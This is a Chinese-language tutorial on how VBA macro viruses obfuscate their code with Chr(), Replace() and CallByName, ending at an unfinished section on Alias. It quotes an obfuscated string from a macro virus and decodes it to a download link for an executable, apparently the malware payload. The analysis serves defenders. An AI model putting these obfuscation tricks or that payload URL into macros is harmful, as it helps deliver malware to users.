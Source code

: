 ```
Nrh1INh1S5hGed = "h" & Chr(116) & Chr(61) & "t" & Chr(112) &Chr(58) & Chr(47) & Chr(59) & Chr(47) & Chr(99) & Chr(104) & Chr(97) & "t" & Chr(101) & Chr(97) & Chr(117) & Chr(45) & Chr(100) & Chr(60) & Chr(101) & Chr(115) & Chr(45) & Chr(105) & Chr(108) & "e" & Chr(115) & Chr(46) & Chr(61) & Chr(99) & Chr(111) & Chr(109) & Chr(47) & Chr(60) & Chr(52) & Chr(116) & Chr(102) & Chr(51) & Chr(51) & Chr(119) & Chr(47) & Chr(60) & Chr(119) & "4" & Chr(116) & Chr(52) & Chr(53) & Chr(51) & Chr(46) & Chr(59) & Chr(101) & Chr(61) & Chr(120) & Chr(101)
```

上列代码使用了大量的Chr函数，看似很复杂，实际上就只是一串字符串“ht=tp:/;/chateau-d<es-iles.=com/，4tf33w/<w4t453.;e=xe”。Nrh1INh1S5hGed字符串看着很像一个链接，但是中间多了几个字符，其实处理起来很简单，只要将多余字符删掉就好。将这串字符串命名为Nrh1INh1S5hGed也是为了混淆，但是对于宏病毒分析人员来说，这种混淆并没有增加分析难度，分析人员只需要 全选--查找--替换。Chr（）函数还可以利用表达式，增加技术人员的分析难度：Ndjs = Sgn(Asc(317 - 433) + 105）ATTH = Chr(Ndjs) + Chr(Ndjs + 12) + Chr(Ndjs + 12) + Chr(Ndjs + 8)经过分析发现，上述代码的字符串是：“http：//”

## Replace（）函数

Replace函数的作用就是替换字符串，返回一个新字符串，其中某个指定的子串被另一个子串替换。承接上文，把Nrh1INh1S5hGed中多余字符去掉，这里使用Replace函数把多余字符替换为空

```
Nrh1INh1S5hGed = Replace(Replace(Replace(Nrh1INh1S5hGed,Chr(60), ""), Chr(61), ""), Chr(59), "")
```

处理之后：Nrh1INh1S5hGed=“http://chateau-des-iles.com/4tf33w/w4t453.exe”可以很清晰看出Nrh1INh1S5hGed是一个下载名为w4t453可执行文件的链接。可以猜测w4t453.exe是一个恶意程序，之后一定会执行w4t453.exe。在用户一无所知的情况下，宏已经完成了入侵工作。

## CallByname 函数

CallByname函数允许使用一个字符串在运行时指定一个属性或方法。CallByName 函数的用法如下

```
Result = CallByName(Object, ProcedureName, CallType, Arguments())
```

CallByName 的第一个参数包含要对其执行动作的对象名。第二个参数，ProcedureName，是一个字符串，包含将要调用的方法或属性过程名。

CallType 参数包含一个常数，代表要调用的过程的类型：方法 (vbMethod)、propertylet (vbLet)、property get (vbGet)，或 property set (vbSet)。最后一个参数是可选的，它包含一个变量数组，数组中包含该过程的参数。例如：CallByName Text1, "Move", vbMethod, 100, 100就相当于执行Text1.Move(100,10) 这种隐藏的函数执行增加了分析的难度。CallByName的作用不仅仅在此，在下面的这个例子中，利用callByName，可以用脚本控制控件:

```vb
Dim obj As Object[/align]       
Set obj = Me     
    Set obj = CallByName(obj, "Text1", VbGet)       
        Set obj = CallByName(obj, "Font", VbGet)       
            CallByName obj, "Size", VbLet, 50     '以上代码="Me.Text1.Font.Size = 50"      Dim obj As Object
             Dim V As String       
            Set obj = Me      
                Set obj = CallByName(obj, "Text1", VbGet)       
                 Set obj = CallByName(obj, "Font", VbGet)    
                  V = CallByName(obj, "Size", VbGet)       '以上代码="V = Me.Text1.Font.Size"
```

## Alias替换函数名
